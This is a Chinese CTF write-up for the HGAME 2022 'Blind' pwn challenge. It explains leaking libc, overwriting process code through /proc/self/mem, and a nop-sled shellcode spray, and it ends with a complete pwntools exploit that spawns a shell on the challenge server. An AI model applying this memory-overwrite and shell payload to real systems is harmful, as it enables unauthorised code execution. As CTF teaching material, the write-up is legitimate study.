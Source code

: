 ```yaml
---
title: 「PWN」【HGAME 2022 Week2】 Pwn Writeup WP 复现
tags: ['CTF', 'Pwn', 'writeup', 'wp']
date: 2022-10-30
authors: [nova]

---
```


<!--truncate-->

# Blind

>  看题目简介应该是BROP的东西，也发现确实没有附件
>
>  完全没做过BROP的题，试试
>
>  [CTF-WIKI_BROP](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/medium-rop/#brop)

首先先查看一下程序会干什么

![image-20220217140202100](https://cdn.novanoir.moe/img/image-20220217140202100.png)

可以看到程序首先给出了`write`的地址，但是由于原创我们不知道libc的版本，虽然也可以根据低12位来找到libc版本，但是我们选择`LibcSearcher`会更快一些

这样的话`libc_base`是很容易找到的

```python
sh.recvuntil(b"write: ")
write_addr = int(sh.recvuntil(b"\n", drop=True), 16)
success(">>> write_addr: {}".format(hex(write_addr)))

libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
success(">>> libc_base: {}".format(hex(libc_base)))
```

接着它让我们可以打开一个文件

![image-20220217140449422](https://cdn.novanoir.moe/img/image-20220217140449422.png)

介绍一下`/proc/`的一些相关内容

## /proc/

Linux系统内核提供了一种通过/proc文件系统，在程序运行时访问内核数据，改变内核设置的机制。/proc是一种伪文件结构，也就是说是仅存在于内存中，不存在于外存中的。/proc中一般比较重要的目录是sys，net和scsi，sys目录是可写的，可以通过它来访问和修改内核的参数。

/proc中还有一些以PID命名（进程号）的进程目录，可以读取对应进程的信息。另外还有一个/self目录，用于记录本进程的信息

### /proc/self/

这就相当于一个软链接，不同的PID访问这个目录进入的实质上是不同的/proc/$(PID)/

#### /proc/self/maps

这个文件用于记录当前进程的内存映射关系，类似于gdb下的vmmap指令，通过读取该文件可以获得内存代码段基地址

#### /proc/self/mem

该文件记录的是进程的内存信息，通过修改该文件相当于直接修改进程的内存。这个文件是可读可写的，但是如果直接读的话则会报错。

需要根据`/proc/self/maps`的映射信息来修改`offset`的`val`

如果我们将一段代码写到`.text`上，则该地址的代码就变成了`disasm(val)`



因此，我们很自然地想到把shellcode写上去，但由于没有源文件，我们也不能清楚究竟程序执行到了什么地方，也就没有办法控制程序准确跳转到`shellcode`开始的地方

## Shellcode Spray 

此时如果我们把地址上下文都改成nop，并在最后添加一段`shellcode`

这样，只要程序执行到了任意`nop`所在的位置，便都可以正常执行`shellcode`

因此，我们不妨修改`__libc_start_main`开始的一大段地址都为`nop`，这能保证程序一定被`nop`覆盖

exp:

```python
import string

from pwn import *
from pwnlib.util.iters import mbruteforce
from LibcSearcher import LibcSearcher

context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'

sh = remote('chuj.top', 51812)

sh.recvuntil(b' == ')
hash_code = sh.recvuntil(b"\n", drop=True).decode('UTF-8')
charset = string.ascii_letters
# print(hash_code, type(hash_code))
proof = mbruteforce(lambda x: hashlib.sha256(x.encode()).hexdigest() ==
                              hash_code, charset, 4, method='fixed')

sh.sendlineafter(b"????> ", proof.encode())

sh.recvuntil(b"write: ")
write_addr = int(sh.recvuntil(b"\n", drop=True), 16)
success(">>> write_addr: {}".format(hex(write_addr)))

libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
success(">>> libc_base: {}".format(hex(libc_base)))

sh.sendlineafter(b">> ", b'/proc/self/mem\x00')

__libc_start_main_addr = libc_base + libc.dump('__libc_start_main')
success(">>> __libc_start_main: {}".format(hex(__libc_start_main_addr)))
sh.sendlineafter(b">> ", str(__libc_start_main_addr).encode())

payload = asm('nop') * 0x300 + asm(shellcraft.sh())
sh.sendlineafter(b">> ", payload)

sh.interactive()
```



